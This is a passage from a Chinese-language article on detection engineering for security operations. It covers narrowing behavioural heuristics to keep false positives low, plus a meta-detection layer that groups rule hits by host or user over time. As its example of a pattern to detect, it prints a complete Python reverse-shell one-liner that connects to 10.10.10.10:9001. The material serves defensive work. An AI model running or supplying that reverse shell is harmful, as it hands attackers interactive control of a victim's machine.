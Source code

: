 如果你已经覆盖了大多数容易解决的问题并希望深入行为分析，可以在已有基础上引入深度学习逻辑。

![](../Images/3d23f1c983a7c5ad3b4a8d1cd54ebdb9.png)

图6\. 展示了使用不同技术实现相同目标的安全启发式的协作工作全景图。

记住奥卡姆剃刀原则，并尽可能简单地实现每个新启发式方法。除非签名规则无法定义可靠的基线，否则不要使用机器学习。

> 这个模型中的每一片段都应该有低假阳性率。你可以忽略高假阴性数量——为解决这个问题，只需添加更多片段。

例如，在上面的异常Python执行示例中——Python参数在你的环境中可能仍然变化太大，会导致过多的异常活动警报。你可能需要进一步缩小范围。例如，仅捕捉命令行中包含`-c`的进程，以查找作为Python二进制文件参数传递的代码，从而只专注于像这样的Python反向shell技术：

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

由于我们降低了假阳性率（FPR），因此我们增加了假阴性。因此，你可能会错过执行具有不寻常名称的Python脚本，例如`python fake_server.py`，攻击者可能会使用这些脚本来伪装成合法服务。为此，你可能需要创建一个专注于这一子集TTPs的单独启发式方法，但它自身的FPR较低。

# 元检测层

值得注意的是，即使遵循瑞士奶酪方法论，你也会得到冗长的启发式方法。通常，这些方法不代表*先验*的恶意性，但会关注上下文。

例如，从新源登录到高严重性主机的SSH/RDP并不是坏事（可能只是新员工或工作站），以及执行`whoami /all`在熟练用户中可能很常见。因此，这两种启发式方法都不适合直接触发警报。然而，这两者的组合可能值得分析师关注。

解决这一困境的方法是在这种冗长的规则之上引入额外的逻辑，以产生“真正的正面结果”。我们可以称之为*元检测层*。

![](../Images/b4b0ddc6ef9d945933ef3f01cc94c248.png)

图7\. 包括专门解析冗长但有用规则的警报设置示意图。

应用于规则激活之上的元逻辑可能有所不同，但通常涉及两个步骤：

1.  *“按组”*对所有由“*实体*”触发的事件进行分组，例如主机、用户名、源IP、cookie等。

1.  对某个*时间段*内的激活应用“*聚合函数*”。

简单而有效的元检测逻辑示例：

+   只需*计算*来自单一实体（例如单一主机或用户）的不同规则触发次数，并报告是否超过阈值，例如在三小时内触发三条不同规则；

+   如上所述，但根据严重性对规则应用*加权和*，例如，“关键”规则计为3，“中等”计为2，“信息”计为1——如果超过阈值则报告，例如*总和 > 6*；

存在更复杂的方法，例如在[以下AISec ’22出版物](https://dl.acm.org/doi/10.1145/3560830.3563726)中定义的方法，其中我在恶意软件表示上使用了第二层机器学习（ML）。这些方法应根据特定的应用和环境进行调整，因为数据特性、遥测量和基础设施规模可能需要不同的方法以保持在可接受的警报限度内。

# 结论

在本文中，我们讨论了在签名方法之外扩展安全操作工具库的思维模式。大多数实现都未能正确完成此操作，因为安全专业人员通过机器学习（ML）定义了过于广泛的行为启发式要求。

我们认为，正确的应用应该由攻击性技术、战术和程序（TTPs）驱动。在适当使用的情况下，机器学习技术可以节省大量的人力资源，有效地过滤出围绕特定TTPs的合法活动基线。

一个成熟且成功的安全姿态将结合签名和行为启发式，其中每个单独的检测逻辑都有低假阳性率，而缺失的假阴性被并行堆叠的多个启发式算法所弥补。
